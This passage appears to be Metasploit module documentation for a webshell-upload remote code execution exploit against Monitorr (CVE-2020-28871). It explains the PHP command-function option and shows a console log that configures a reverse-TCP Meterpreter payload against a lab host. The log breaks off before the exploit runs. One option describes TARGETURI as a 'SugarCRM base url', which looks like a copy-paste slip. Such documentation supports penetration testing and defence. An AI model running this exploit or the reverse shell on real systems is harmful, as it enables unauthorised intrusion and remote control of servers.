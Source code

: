### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - PHP Meterpreter session
```
msf6 > use exploit/multi/http/monitorr_webshell_rce_cve_2020_28871
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > options
Module options (exploit/multi/http/monitorr_webshell_rce_cve_2020_28871):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.
   When TARGET is not 0:
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)
   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  1981             yes       The local port to listen on.
Payload options (php/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   PHP
View the full module info with the info, or info -d command.
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set rhosts 192.168.201.34
rhosts => 192.168.201.34
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set lhost 192.168.201.10
lhost => 192.168.201.10
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set lport 4444
```